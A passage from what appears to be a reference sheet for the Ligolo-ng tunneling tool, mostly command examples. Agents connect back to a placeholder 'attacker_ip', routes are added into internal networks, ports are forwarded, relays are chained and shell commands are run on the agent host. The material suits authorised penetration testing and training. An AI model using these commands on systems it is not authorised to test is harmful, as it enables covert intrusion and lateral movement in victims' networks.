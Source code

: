 ```bash
# Agent with custom socket timeout
./agent -connect attacker_ip:11601 -ignore-cert -timeout 30s
```

### 4.2 Session Management and Network Configuration

```bash
# Ligolo-ng interactive commands

# List all connected agents
ligolo-ng » session

# Select specific agent session
ligolo-ng » session 1

# Display agent network information
agent » ifconfig

# Start tunneling session
agent » start

# Stop active tunnel
agent » stop

# Add route to specific network
agent » tunnel_add --tun ligolo --route 10.10.10.0/24

# Add multiple network routes
agent » tunnel_add --tun ligolo --route 172.16.0.0/16
agent » tunnel_add --tun ligolo --route 10.0.0.0/8

# Remove specific route
agent » tunnel_del --tun ligolo --route 10.10.10.0/24
```

### 4.3 Advanced Tunneling Features

```bash
# Port forwarding through agent
agent » listener_add --addr 0.0.0.0:8000 --to 10.0.0.10:80 --tcp

# UDP service forwarding
agent » listener_add --addr 0.0.0.0:53 --to 10.0.0.53:53 --udp

# Reverse port forwarding
agent » listener_add --addr 0.0.0.0:443 --to 192.168.1.100:443 --tcp

# List active listeners
agent » listener_list

# Remove specific listener
agent » listener_del --id 1

# Agent relay for multi-hop pivoting
./agent -connect first_pivot:11601 -ignore-cert -relay

# Agent with SOCKS5 proxy
./agent -connect attacker_ip:11601 -ignore-cert -socks5 127.0.0.1:1080

# Command execution on agent host
agent » shell whoami
agent » shell "netstat -an | grep LISTEN"
agent » shell "ipconfig /all"
```
